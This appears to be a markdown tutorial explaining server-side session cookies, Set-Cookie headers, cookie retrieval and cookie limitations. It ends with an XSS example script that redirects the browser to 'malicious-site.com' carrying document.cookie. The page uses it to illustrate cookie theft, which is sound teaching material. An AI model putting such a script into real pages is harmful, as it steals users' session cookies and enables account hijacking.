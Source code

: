 
## Session Management  

<figure>
  <div align="center">
    <img src="data/cookies/assets/session.png" height="300" width="500" style="border: 2px solid black;">
  </div>
  <figcaption style="text-align: center"></figcaption>  
</figure>
<br>

<!-- <img src = "data/cookies/assets/session.png">  -->

### **Server-Side Cookies**  

When a user visits a website and logs in, the server needs a way to remember that user across different pages. This is where cookies come in.  

1. The user logs in by sending credentials (e.g., username & password).  
2. The server verifies the credentials and creates a session for the user.  
3. The server sends a `Set-Cookie` header in the HTTP response, instructing the browser to store a cookie.  
4. The cookie (`session_id=abc123`) is now stored in the user's browser, helping the server recognize the user in future requests.  

   **HTTP Response:**  
   ```http
   HTTP/1.1 200 OK  
   Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict  
   ```  

### **Client-Side Cookie Retrieval**  

Once stored, the cookie is automatically included in future requests to the same website, allowing the server to identify the user without requiring them to log in again.  

**Browser Request with Cookie:**  
```http
GET /profile HTTP/1.1  
Host: www.example.com  
Cookie: session_id=abc123  
```  

- The browser automatically adds the cookie to every request sent to `www.example.com`.  
- The server reads the cookie and verifies that `session_id=abc123` belongs to a valid logged-in user.  
- The user is shown their personalized profile page without needing to log in again.  

### **Limitations of Cookies**  

- **Storage Limit:** Maximum of **4KB**, restricting data storage.  
- **Network Load:** Sent with every request, increasing bandwidth usage.  
- **Security Risks:**  
  - **Session Hijacking:** Stolen session cookies can be used to impersonate users.  
  - **XSS Attacks:** JavaScript can steal cookies if not properly secured.  
  <figure>
  <div align="center">
    <img src="data/cookies/assets/XSS.png" height="300" width="500" style="border: 2px solid black;">
  </div>
  <figcaption style="text-align: center"></figcaption>  
</figure>
<br>

   <!-- <img src = "data/cookies/assets/XSS.png"> -->
```
<script>
document.location = "http://malicious-site.com/steal?cookie=" + document.cookie;
</script>
```